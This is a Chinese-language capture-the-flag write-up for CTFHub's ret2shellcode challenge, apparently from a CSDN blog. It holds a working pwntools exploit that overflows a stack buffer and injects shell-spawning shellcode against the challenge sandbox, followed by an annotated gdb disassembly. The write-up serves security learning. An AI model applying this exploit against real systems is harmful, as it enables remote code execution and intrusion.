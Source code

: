 # CTFHUB-PWN-ret2shellcode

[PWN常用命令_猫疼玩AI的博客-CSDN博客](https://blog.csdn.net/qq_41701054/article/details/123375057) 



## 1.做题方法

几个大方向的思路：  
没有PIE：ret2libc  
NX关闭：ret2shellcode  
其他思路：ret2csu、ret2text 【程序本身有shellcode】

先检查开了什么保护



<img src="https://i-blog.csdnimg.cn/blog_migrate/40c80893e0f4236ccb4af57e1afd3aa9.png" alt="" style="max-height:220px; box-sizing:content-box;" />


没有开保护 并且是64 的

放入ida64

查看字符串



<img src="https://i-blog.csdnimg.cn/blog_migrate/8c833d5559544d78d0fa4595c6282679.png" alt="" style="max-height:240px; box-sizing:content-box;" />


发现没有shell

我们看看主函数



<img src="https://i-blog.csdnimg.cn/blog_migrate/bd364f3c8711301b3d9ac3edd5690356.png" alt="" style="max-height:254px; box-sizing:content-box;" />


发现有read函数 但是没有shell

```cobol
并且 read 的大小为 400u   但是我们buf的大小只为 10h 所以说明是让我们写shellcode进去
```

我们现在要确定一些信息

## 1.buf的大小

大小为 0x10+0x08  因为是64位

## 2.shellcode的地址

我们要知道shellcode的地址 必须要知道 buf的地址 因为我们要把buf填充满 然后再让栈进入shellcode的地址 然后再执行shellcode

我们把shellcode_addr放在 buf_addr后面

buf_addr 是在程序执行的时候给我们的 %p是输出地址

所以我们使用pwntools 的 recvuntil()函数来取得

## 3.shellcode

使用pwntools中的

shellcode = asm(shellcraft.sh())即可

但是注意 64位要加上 context.arch='amd64'

```cobol
context.arch = 'amd64'
shellcode = asm(shellcraft.sh())
```

我们取得这些 我们就可以开始编写 exp

```cobol
from pwn import *
import re
context.arch='amd64'
shellcode=asm(shellcraft.sh())
p=remote('challenge-c3b38bfcad408f15.sandbox.ctfhub.com',33975)
buf_addr=p.recvuntil(']')  #截取到]为止的字符串
buf_addr=int(buf_addr[-15:-1],16)  #处理一下 然后为16进制
shellcode_addr=buf_addr+32   #0x10+0x08+0x08 十进制为32
payload=b'a'*(0x10+0x08)+p64(shellcode_addr)+shellcode
p.sendline(payload)
p.interactive()
```

运行



<img src="https://i-blog.csdnimg.cn/blog_migrate/f4cf5355854bb16a69b46aa90e2815bb.png" alt="" style="max-height:462px; box-sizing:content-box;" />




得到flag



<img src="https://i-blog.csdnimg.cn/blog_migrate/58cd86b5f20ec4a049ac6b8c78d1a536.png" alt="" style="max-height:143px; box-sizing:content-box;" />


最后晒出我自己理解的栈中的现象



<img src="https://i-blog.csdnimg.cn/blog_migrate/73db68eb0a1cb236ec7e52aa258a5ccc.png" alt="" style="max-height:641px; box-sizing:content-box;" />


## 2.开始解读栈内的方法 就是看gdb

```cobol
► 0x40060b <main+4>     sub    rsp, 0x10   #减法rsp-0x10 就是开辟空间
   0x40060f <main+8>     mov    qword ptr [rbp - 0x10], 0
把0 作为数值存入 rbp:0x10的地址
   0x400617 <main+16>    mov    qword ptr [rbp - 8], 0
把0 作为数值存入 rbp:8的地址
   0x40061f <main+24>    mov    rax, qword ptr [rip + 0x200a22] 
<stdout@@GLIBC_2.2.5>
把qword ptr [rip + 0x200a22]的地址存入rax寄存器中 
   0x400626 <main+31>    mov    ecx, 0
把0作为参数存入ecx 这里是作为 下面setvbuf的第二个参数
   0x40062b <main+36>    mov    edx, 1
同理
   0x400630 <main+41>    mov    esi, 0
同理
   0x400635 <main+46>    mov    rdi, rax
然后把rax存入rdi 就是上面的stdout流
   0x400638 <main+49>    call   setvbuf@plt                      <setvbuf@plt>
调用setvbuf函数
 
   0x40063d <main+54>    lea    rdi, [rip + 0xd4]
开始调用[rip + 0xd4]的地址指针存入rdi 作为puts的参数
   0x400644 <main+61>    call   puts@plt  
开始调用puts函数
 0x400649 <main+66>     lea    rax, [rbp - 0x10]
开始把[rbp:0x10]的地址指针存入rax
   0x40064d <main+70>     mov    rsi, rax
把rax的值存入rsi寄存器 作为下面print函数的参数
   0x400650 <main+73>     lea    rdi, [rip + 0xe2]
把[rip+0xe2]的指针存入rdi 这里是字符串常量的地址
   0x400657 <main+80>     mov    eax, 0
将eax调为0 表示没有浮点数
   0x40065c <main+85>     call   printf@plt                      <printf@plt>
 开始调用printf函数
 
 ► 0x400661 <main+90>     lea    rdi, [rip + 0xe6]
把[rip:0xe6]的地址存入rdi寄存器 作为puts函数的参数 也是字符串
   0x400668 <main+97>     call   puts@plt                      <puts@plt>
调用puts函数
   0x40066d <main+102>    lea    rax, [rbp - 0x10]
把[rbp-0x10]的地址存入rax寄存器 这里是取得 这个地址的东西
   0x400671 <main+106>    mov    edx, 0x400
然后把400h存入edx 表示打印可以输出的最大字节
   0x400676 <main+111>    mov    rsi, rax
把rax存入rsi寄存器 就是作为参数
   0x400679 <main+114>    mov    edi, 0
把edi设置为0 作为参数 
 0x40067e       <main+119>                      call   read@plt                      <read@plt>
执行 read函数
 
   0x400683       <main+124>                      mov    eax, 0
把0作为参数存入eax
   0x400688       <main+129>                      leave  
退出
   0x400689       <main+130>                      ret    
返回到返回地址
    ↓
   0x7ffff7c29d90 <__libc_start_call_main+128>    mov    edi, eax
把eax存入edi
 ► 0x7ffff7c29d92 <__libc_start_call_main+130>    call   exit                <exit>
        status: 0x0
 调用exit函数 退出到主函数
   0x7ffff7c29d97 <__libc_start_call_main+135>    call   __nptl_deallocate_tsd                <__nptl_deallocate_tsd>
调用这个函数
 
   0x7ffff7c29d9c <__libc_start_call_main+140>    lock dec dword ptr [rip + 0x1ef505]  <__nptl_nthreads>
   0x7ffff7c29da3 <__libc_start_call_main+147>    sete   al
   0x7ffff7c29da6 <__libc_start_call_main+150>    test   al, al
   0x7ffff7c29da8 <__libc_start_call_main+152>    jne    __libc_start_call_main+168                <__libc_start_call_main+168>
```

到此解释完毕

```undefined
执行函数前 先要调用寄存器 把函数的参数存入寄存器中 作为后面函数的参数
```